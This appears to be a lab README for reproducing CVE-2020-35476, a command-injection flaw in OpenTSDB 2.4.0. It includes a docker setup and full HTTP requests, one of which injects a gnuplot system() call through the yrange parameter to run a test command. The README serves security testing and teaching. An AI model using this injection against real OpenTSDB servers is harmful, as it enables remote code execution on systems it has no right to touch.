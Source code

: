 # OpenTSDB arbitrary commands injection (CVE-2020-35476)

[中文版本(Chinese version)](README.zh-cn.md)

OpenTSDB is a distributed, scalable Time Series Database (TSDB) written on top of HBase.

A remote code execution vulnerability occurs in OpenTSDB through 2.4.0 via command injection in the yrange parameter. The yrange value is written to a gnuplot file in the /tmp directory. This file is then executed via the mygnuplot.sh shell script. (tsd/GraphHandler.java attempted to prevent command injections by blocking backticks but this is insufficient.)

References:

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## Vulnerable Environment

Execute the following command to start a OpenTSDB server 2.4.0:

```
docker compose up -d
```

Once the service is started, visit `http://your-ip:4242` to see the web interface of the OpenTSDB.

## Exploit

You need to know the name of a metric before you can exploit this vulnerability on `http://your-ip:4242/api/suggest?type=metrics&q=&max=10`:

![](1.png)

However, the metrics list is empty.

Fortunately, the `tsd.core.auto_create_metrics` is set to `true` in this vulnerable OpenTSDB, so you can create a metric named `sys.cpu.nice` through following request:

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

If at least one metric exists and is not empty, the above request is not required.

Send following request, where the value of the parameter `m` must contain a valid metric name:

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```

![](2.png)

`touch /tmp/success` has been successfully executed.

![](3.png)
